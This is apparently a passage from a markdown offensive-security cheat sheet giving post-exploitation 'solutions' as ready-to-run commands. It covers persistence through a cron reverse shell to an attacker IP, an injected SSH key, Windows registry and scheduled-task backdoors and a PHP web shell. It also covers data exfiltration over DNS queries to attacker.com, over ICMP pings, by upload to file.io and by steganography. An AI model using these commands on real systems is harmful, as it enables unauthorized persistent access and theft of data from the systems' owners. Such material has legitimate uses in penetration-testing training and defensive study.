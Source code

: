```bash
```

## Post-Exploitation Solutions

### Persistence Mechanisms
**Problem**: Maintaining access to compromised systems

**Solution**:
```bash
# 1. Linux persistence
# Cron job backdoor
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" | crontab -

# SSH key persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3... attacker@kali" >> ~/.ssh/authorized_keys

# 2. Windows persistence
# Registry run key
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\backdoor.exe"

# Scheduled task
schtasks /create /tn "backdoor" /tr "C:\backdoor.exe" /sc onlogon

# 3. Web shell persistence
# PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
```

### Data Exfiltration
**Problem**: Extracting sensitive data from compromised systems

**Solution**:
```bash
# 1. File compression and encryption
tar -czf data.tar.gz /sensitive/data/
gpg --cipher-algo AES256 --compress-algo 1 --symmetric data.tar.gz

# 2. Covert channels
# DNS exfiltration
for i in $(cat sensitive_data.txt | base64 | tr -d '\n' | sed 's/.{32}/&\n/g'); do dig $i.attacker.com; done

# ICMP exfiltration
xxd -p -c 16 sensitive_data.txt | while read line; do ping -c 1 -p $line attacker_ip; done

# 3. Cloud storage upload
curl -X POST -F "file=@sensitive_data.txt" https://file.io

# 4. Steganography
steghide embed -cf image.jpg -ef sensitive_data.txt
```
